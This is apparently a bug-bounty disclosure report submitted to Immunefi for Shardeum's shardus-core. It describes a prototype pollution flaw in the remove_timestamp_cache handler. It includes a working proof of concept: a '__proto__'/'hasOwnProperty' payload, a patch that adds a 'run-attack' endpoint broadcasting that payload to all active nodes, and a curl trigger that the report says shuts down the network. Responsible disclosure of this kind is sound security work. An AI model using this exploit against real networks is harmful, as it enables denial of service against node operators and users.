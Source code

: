 
# Prototype pollution vulnerability in `remove_timestamp_cache` handler can stop active node

Submitted on Tue Aug 06 2024 11:59:45 GMT-0400 (Atlantic Standard Time) by @periniondon630 for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34201

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
A prototype pollution vulnerability has been discovered in the remove_timestamp_cache handler of the state-manager module. This vulnerability allows an attacker to manipulate the Object prototype, potentially leading to active node shutdown, slashing of the active node for early leave. If exploited in production/mainnet, this flaw could cause significant disruption and compromise the security of the system.

## Vulnerability Details
The vulnerability exists in the following code snippet:

```javascript
this.p2p.registerInternal(
  'remove_timestamp_cache',
  async (
    payload: TimestampRemoveRequest,
    respond: (result: boolean) => unknown
  ) => {
    const { txId, receipt2, cycleCounter } = payload
    /* eslint-disable security/detect-object-injection */
    if (this.txTimestampCache[cycleCounter] && this.txTimestampCache[cycleCounter][txId]) {
      // remove the timestamp from the cache
      delete this.txTimestampCache[cycleCounter][txId]
      this.txTimestampCache[cycleCounter][txId] = null
      /* prettier-ignore */ this.mainLogger.debug(`Removed timestamp cache for txId: ${txId}, timestamp: ${Utils.safeStringify(this.txTimestampCache[cycleCounter][txId])}`)
      nestedCountersInstance.countEvent('consensus', 'remove_timestamp_cache')
    }
    await respond(true)
  }
)
```

The `payload` parameter can be crafted to include special properties such as `__proto__`, allowing an attacker to manipulate the Object prototype. The following exploit demonstrates this vulnerability:

```javascript
Context.network.registerExternalGet('run-attack', async (req, res) => {
  const payload = { txId: 'hasOwnProperty', receipt2: 'lorem', cycleCounter: '__proto__' }
  for (const node of activeByIdOrder) {
    await this.p2p.tell([node], 'remove_timestamp_cache', payload)
  }
})
```

By sending a payload with `cycleCounter` set to `__proto__` and `txId` set to `hasOwnProperty`, an attacker can modify the prototype of all objects, causing unexpected behaviors and potential application crashes.

## Impact Details
The potential impacts of this vulnerability are severe and include:

- complete network shutdown, which demonstrates by exploit
- slashing active node by early leave penalty.

## References

- [OWASP: Prototype Pollution](https://owasp.org/www-community/attacks/Prototype_Pollution)
- [CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution')](https://cwe.mitre.org/data/definitions/1321.html)
        
## Proof of concept
- Set up and launch a test Shardeum network.
- Apply the following patch to the shardus-core repository to introduce a malicious node:
```
diff --git a/src/state-manager/index.ts b/src/state-manager/index.ts
index f22738cf..a189e16e 100644
--- a/src/state-manager/index.ts
+++ b/src/state-manager/index.ts
@@ -2169,6 +2169,13 @@ class StateManager {
       binaryGetAccountQueueCountHandler.handler
     )

+    Context.network.registerExternalGet('run-attack', async (req, res) => {
+        const payload = { txId: 'hasOwnProperty', receipt2: 'lorem', cycleCounter: '__proto__' }
+        for (const node of activeByIdOrder) {
+            await this.p2p.tell([node], 'remove_timestamp_cache', payload)
+        }
+    })
+
     Context.network.registerExternalGet('debug_stats', isDebugModeMiddleware, (_req, res) => {
       const cycle = this.currentCycleShardData.cycleNumber - 1

```
- Build and run your malicious node; it will be capable of attacking and shutting down the network.
- Wait until malicious node will become active. 
- Initiate the attack from the malicious node using the following curl command:
```
curl 'http://<MALICIOUS_NODE_IP>:<EXTERNAL_PORT>/run-attack'
```
- The exploit code will iterate through all active nodes in the network and shut them down.
- Wait until all nodes appear red on the monitor webpage, indicating they are offline.
- Check the logs (e.g., fatal logs) to confirm that nothing can be processed. 